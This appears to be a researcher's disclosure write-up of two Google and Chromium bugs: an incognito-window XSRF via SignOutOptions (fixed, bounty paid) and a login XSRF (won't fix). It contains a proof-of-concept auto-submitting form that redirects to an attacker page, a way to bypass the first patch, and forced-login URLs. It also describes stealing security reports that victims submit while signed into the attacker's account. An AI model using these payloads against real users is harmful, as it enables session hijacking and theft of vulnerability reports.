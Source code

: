 ```yaml
---
title: Google Login XSRF/GAIA
---
```


# Go Incognito XSRF (Fixed, Awarded $3000)

`SignOutOptions` has a feature where it will open an Android incognito window to a custom URL that does not inherit the sandbox or close the file picker dialog (spoof)

```js
Frame = document.createElement('iframe');
Frame.sandbox = 'allow-popups allow-forms allow-scripts';
```

```html
<form action="https://accounts.google.com/SignOutOptions?continue=https://www.google.com/amp/a/s/ndev.tk/evil.html" method="post">
  <input type="submit" name="incognito" value="1" />
</form>
<script>
  document.querySelector("input").click();
</script>
```

[escape video](https://drive.google.com/open?id=1SOLqCApjT__KfW45MT2MCVYJGO_iHHnY&authuser=0)
[filepicker video](https://drive.google.com/open?id=1xV1RwHDIvJvjoaTxrwRPnV85DSDFlzAi&authuser=0)


The first patch used `google_util::IsGoogleAssociatedDomainUrl` thats bypassable since Google hosts user generated content on `gstatic.com` (Or used to via XSS), `storage.googleapis.com` (Storage buckets) and `googleusercontent.com` (`ip.bc.googleusercontent.com`), I did not verify if insecure `http://` pages work.

# Login XSRF (WONTFIX/INFEASIBLE)

Both issue trackers don't verify if the victim initiated the login which allows the attacker to force a login to their account, No `document.cookie =` needed :)  
<https://issues.chromium.org/accounts/SetOSID> (Via: `https://accounts.google.com/ServiceLogin?osid=1&continue=https%3A%2F%2Fissues.chromium.org`)  
<https://bugs.chromium.org/_ah/conflogin?state=> (Via: `https://uc.appengine.google.com/_ah/conflogin?state=`)  
Some more examples...

- `https://accounts.googlesource.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://chromium.googlesource.com/login/angle/?pli%3D1%26authuser%3D1`
- `https://accounts.blogger.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://www.blogger.com/home?pli%3D1%26authuser%3D1`
- `https://flash.android.com/accounts/SetOSID?authuser=0&continue=https://flash.android.com/?pli%3D1%26authuser%3D0&osidt=<Token>`

Worth mentioning since the token is not connected to a session, browser extensions with the Tabs permission but no host permission gain account takeover; it's a feature.

Once the victim is on the attackers account any security issues reported via the standard <https://bugs.chromium.org/p/chromium/issues/wizard> page (ideally bookmarked) will be sent to the attackers email and if all goes well there be able to steal that 0day and get the reward (very unlikely) from Chromium VRP!

They are aware of the fact that login XSRF is possible in some cases. Unfortunately, they have a clear plan to fix it at this time.
